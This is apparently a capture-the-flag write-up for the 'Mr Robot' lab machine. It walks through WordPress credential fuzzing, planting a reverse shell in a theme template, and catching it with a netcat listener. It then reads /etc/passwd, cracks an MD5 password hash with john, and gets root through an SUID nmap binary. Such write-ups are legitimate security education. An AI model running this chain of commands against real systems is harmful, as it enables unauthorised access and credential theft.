 # Mr Robot CTF

First of all I am going to do an nmap scan:

```bash
nmap -sC -sV -p- 10.10.81.92

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-22 05:44 EST
Nmap scan report for 10.10.81.92
Host is up (0.055s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 123.10 seconds
```

Here we can see port 80 and 443 open.

So I am going to expplore the web page.

![Untitled](Mr%20Robot%20CTF%200771358915314dfa9159586ad03a2c0a/Untitled.png)

This is the content of the web page.

From this point I just went and enumerate the webpage.

I also found the robots.txt which leads to the first flag.

inside the robots.txt there is also the location to a dictionary:

```bash
sort Downloads/fsocity.dic | uniq > uniq.txt
```

I ran this command because there were repeated words.

So, now I just need the username.

I tried with wpscan but I got nothing, So I tried to FUZZ the username with the sictionary, which if it is in the wordlist, should get a different response size, because wordpress tells you if is just the password that is wrong.

 And that’s exactly what happened:

![Untitled](Mr%20Robot%20CTF%200771358915314dfa9159586ad03a2c0a/Untitled%201.png)

So, now I think of running the fuzzer again, with the username Elliot and with the dictionary as a password.

And we got the password:

 

![Untitled](Mr%20Robot%20CTF%200771358915314dfa9159586ad03a2c0a/Untitled%202.png)

And I got in, from there I could create a reverse shell, but first let’s explore the dashboard.

In the Users section wee see that there is another User:

![Untitled](Mr%20Robot%20CTF%200771358915314dfa9159586ad03a2c0a/Untitled%203.png)

Maybe it can be helpful later.

We can create a reverse shell just by copy and paste the pentestermonkey reverse shell, in the 404 template.

![Untitled](Mr%20Robot%20CTF%200771358915314dfa9159586ad03a2c0a/Untitled%204.png)

Then start the listener in the machine and we are in:

```bash
nc -lvnp 4444  
listening on [any] 4444 ...
connect to [10.11.65.91] from (UNKNOWN) [10.10.81.92] 50199
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 12:10:26 up  1:29,  0 users,  load average: 0.00, 0.88, 2.66
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
daemon
```

We have 2 users:

```bash
cat /etc/passwd | grep "home"

syslog:x:101:104::/home/syslog:/bin/false
mysql:x:1001:1001::/home/mysql:
varnish:x:999:999::/home/varnish:
robot:x:1002:1002::/home/robot:
```

We can’t cd into varnish, but we can cd in robot.

in his home we have 2 files:

```bash
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

As we can see the first one can be opened only by robot, but the second one can be read by anyone:

```bash
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

And looks like we got the md5 hash of robot

And we can simply brute force it:

```bash
john --format=Raw-md5 pass.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
abcdefghijklmnopqrstuvwxyz (robot)     
1g 0:00:00:00 DONE (2024-01-22 07:19) 100.0g/s 4051Kp/s 4051Kc/s 4051KC/s bonjour1..123092
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Using that we can use the command “su” to authenticate ourself as robot:

```bash
su robot
Password: abcdefghijklmnopqrstuvwxyz
```

```bash
whoami
robot
```

After doing some enumeration, I noticed that we got a strange SUID:

 

```bash
find / -type f -perm -04000 -ls 2>/dev/null

 15068   44 -rwsr-xr-x   1 root     root        44168 May  7  2014 /bin/ping
 15093   68 -rwsr-xr-x   1 root     root        69120 Feb 12  2015 /bin/umount
 15060   96 -rwsr-xr-x   1 root     root        94792 Feb 12  2015 /bin/mount
 15069   44 -rwsr-xr-x   1 root     root        44680 May  7  2014 /bin/ping6
 15085   40 -rwsr-xr-x   1 root     root        36936 Feb 17  2014 /bin/su
 36231   48 -rwsr-xr-x   1 root     root        47032 Feb 17  2014 /usr/bin/passwd
 36216   32 -rwsr-xr-x   1 root     root        32464 Feb 17  2014 /usr/bin/newgrp
 36041   44 -rwsr-xr-x   1 root     root        41336 Feb 17  2014 /usr/bin/chsh
 36038   48 -rwsr-xr-x   1 root     root        46424 Feb 17  2014 /usr/bin/chfn
 36148   68 -rwsr-xr-x   1 root     root        68152 Feb 17  2014 /usr/bin/gpasswd
 36349  152 -rwsr-xr-x   1 root     root       155008 Mar 12  2015 /usr/bin/sudo
 34835  496 -rwsr-xr-x   1 root     root       504736 Nov 13  2015 /usr/local/bin/nmap
 38768  432 -rwsr-xr-x   1 root     root       440416 May 12  2014 /usr/lib/openssh/ssh-keysign
 38526   12 -rwsr-xr-x   1 root     root        10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
395259   12 -r-sr-xr-x   1 root     root         9532 Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
395286   16 -r-sr-xr-x   1 root     root        14320 Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
 38505   12 -rwsr-xr-x   1 root     root        10344 Feb 25  2015 /usr/lib/pt_chown
```

Nmap can be used in interactive mode:

```bash
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# whoami
root
```

And after that we just want to go in the /root directory and retrieve the flag.